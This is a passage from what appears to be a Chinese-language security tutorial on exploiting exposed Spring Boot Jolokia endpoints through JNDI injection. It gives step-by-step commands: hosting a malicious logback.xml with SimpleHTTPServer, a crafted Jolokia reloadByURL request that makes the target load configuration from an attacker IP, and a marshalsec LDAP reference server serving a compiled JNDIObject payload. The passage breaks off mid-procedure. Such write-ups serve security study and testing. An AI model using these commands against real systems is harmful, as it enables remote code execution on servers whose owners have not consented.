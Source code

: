 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-cd648342fb6860df7761ab2fdd8a4bb6ef780d12.png)

2. 准备xml文件并开启简易服务器；

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d0db3bddd3595c8765fa66093b66bac079444151.png)

```php
 python2 -m SimpleHTTPServer 8888  
```

3. 从外部 URL 地址加载日志配置文件。

```php
http://10.188.120.107:9094/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/192.168.88.129:8888!/logback.xml
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-3dfef57a7da3a544d75dc7dc7da5424c68750f09.png)

### 2.4.3 漏洞原理

请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容，再解析xml文件，请求恶意 JNDI 服务器，通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法导致 JNDI 注入，造成 RCE 漏洞。

2.5 jolokia Realm JNDI RCE
--------------------------

### 2.5.1 利用条件

- 可以直接访问`/jolokia` 或 `/actuator/jolokia` 接口
- 能确定使用了`jolokia-core` 依赖并且环境中存在相关 MBean
- 目标网站可以访问外网
- JNDI 注入受目标 JDK 版本影响，jdk&lt;6u141/7u131/8u121（RMI 方式）

### 2.5.2 漏洞复现

1. 准备xml文件和JNDIObject.java文件；

192.168.141.129为攻击机IP，3333为监听端口。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-118bf0b0e9868a89860a3fdd40ec4d9f03b07eea.png)  
使用  
`javac -source 1.5 -target 1.5 JNDIObject.java`编译JNDIObject.java文件。

2. 使用python开启建议服务器并开启监听；

```php
python2 -m SimpleHTTPServer 80
```

3. 启动JNDIObject文件；

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.141.129:80/##JNDIObject 1389
```

